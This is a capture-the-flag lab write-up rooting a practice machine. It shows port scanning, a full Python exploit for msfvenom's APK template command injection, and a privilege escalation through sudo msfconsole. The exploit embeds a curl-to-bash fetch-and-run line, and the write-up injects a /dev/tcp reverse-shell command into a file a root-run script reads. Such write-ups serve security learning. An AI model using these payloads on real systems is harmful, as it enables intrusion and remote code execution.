# <p style="color:RED">Information Gathering </p>

---

## <p style="color:Green">Nmap scan </p> 
```bash
sudo nmap -sC -sV 10.10.10.226 -v
```

```bash
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
```



We have two ports open

- 22/SSH :  OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
- 5000/HTTP :  Werkzeug httpd 0.16.1


--> Service versions seem to be up-to-date, we don't really focus on them


## <p style="color:Green">Web Server </p> 



--> We have so many user inputs, first thing we should check if there is any command injections as it seem to be using linux binaries which can lead to RCE







--> It seems that the input is hardcoded, taking into considerating that this is an easy box i don't that we should try to bypass these filters and just move on


# <p style="color:RED">Foothold & User flag </p>

---

Another interesting thing is the file upload that takes a msfvenom template!

Searching a bit in google can lead us to what we want! We can craft a Android payload template and get a shell on the box

> https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md


Payload:

```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

payload = 'curl http://10.10.14.54:1337/x|bash'


payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")

```


Let's execute the apk file



And set a listener to get a reverse shell on the box



Let's stabilize our shell




# <p style="color:RED"> 2nd USER & Root Flag </p>

---

Looking a bit in the files, we can find an interesting file owned by pwn user!




Basically it takes the ips from the hackers file and run nmap on it!

The idea is to inject a malicious command instead of an ip

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1' #" >>hackers
```

> We should add two spaces because of the | cut -d' ' -f3- |



We got a shell as the user pwn!

Let's check if he can run anything as root





We can run msfconsole as root! basically a free win :D!

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```




And we can execute commands as root




And we rooted the box!

## Thanks for reading hope you enjoyed it!


